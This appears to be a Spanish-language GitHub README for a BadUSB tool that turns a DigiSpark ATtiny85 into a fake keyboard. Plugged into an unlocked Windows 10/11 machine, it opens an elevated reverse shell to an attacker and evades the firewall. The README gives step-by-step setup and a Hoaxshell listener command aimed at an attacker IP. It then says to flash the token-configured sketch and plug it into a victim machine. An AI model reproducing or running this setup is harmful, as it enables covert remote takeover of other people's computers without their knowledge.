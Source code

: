 ## 📝 Descripción
> Script para **DigiSpark ATtiny85** que genera una shell inversa con permisos elevados desde una máquina Windows víctima hacia una máquina atacante, logrando evadir el firewall. 


## ⚙️ Funcionamiento
> El ataque se activa al conectar el dispositivo al puerto USB con la sesión iniciada: el DigiSpark emula un teclado e inyecta los comandos de forma automática, sin intervención del usuario, estableciendo la conexión con la máquina atacante la cual está escuchando solicitudes.


## 💻 Compatibilidad 
> Solo funciona correctamente bajo las siguientes condiciones:
- **Sistema operativo victima**: Windows 10/11
- **Sesión activa**: Escritorio desbloqueado y sesión iniciada
- **Distribucion de teclado victima**: Español Latam (Puedes configurar otra distribución siguiendo un paso adicional.)

 
## ✅ Requerimientos
1. Tener instalado Arduino IDE [Ver Arduino IDE](https://www.arduino.cc/en/software/)
2. Descargar e instalar DigiStump Board 1.6.7 a traves del Boards Manager de Arduino (Configuración)
```
   https://raw.githubusercontent.com/digistump/arduino-boards-index/refs/heads/master/package_digistump_index.json
```
3. Copiar la carpeta DigisparkKeyboard del repositorio y pegarla en:
```
C:\Users\tu_usuario\AppData\Local\Arduino15\packages\digistump\hardware\avr\1.6.7\libraries\
```
4. Descargar e instalar la herramienta Hoaxshell de su repositorio oficial (Seguir los pasos del repositorio):
```
git clone https://github.com/t3l3machus/hoaxshell
```


## 🚀 Uso

### 1) Ejecutar Hoaxshell.py, copiar el token generado en $i y dejar ejecutandose
```python
python3 ./hoaxshell.py -s IP_ATACANTE -r -H 'Authorization'
```
![image](https://github.com/user-attachments/assets/8da49bb0-b57a-4613-9a5a-1bc4f6299157)


### 2) Abrir Arduino con el script .ino del repositorio, modificar las variables que se mencionan en el script y seleccionar Digispark 16.5 Board:

- IP_AND_PORT_ATTACKER: Pegar tu IP y puerto de maquina atacante
- TOKEN: Pegar el token generado por hoaxshell
- TOKEN_PART1: Pegar primera parte del token
- TOKEN_PART2: Pegar segunda parte del token
- TOKEN_PART3: Pegar tercera parte del token

![image](https://github.com/user-attachments/assets/9418035f-eaa7-4b05-ae3b-a7bd19dd68d6)



### 3) Compilar y cargar a nuestro ATTINY-85 en la misma interfaz de Arduino

### 4) Conectar el dispositivo a la máquina victima y esperamos la respuesta en nuestra máquina de atacante.

   
![image](https://github.com/user-attachments/assets/5c8ce65b-5abe-4dae-a521-7f1f90dc95a5)



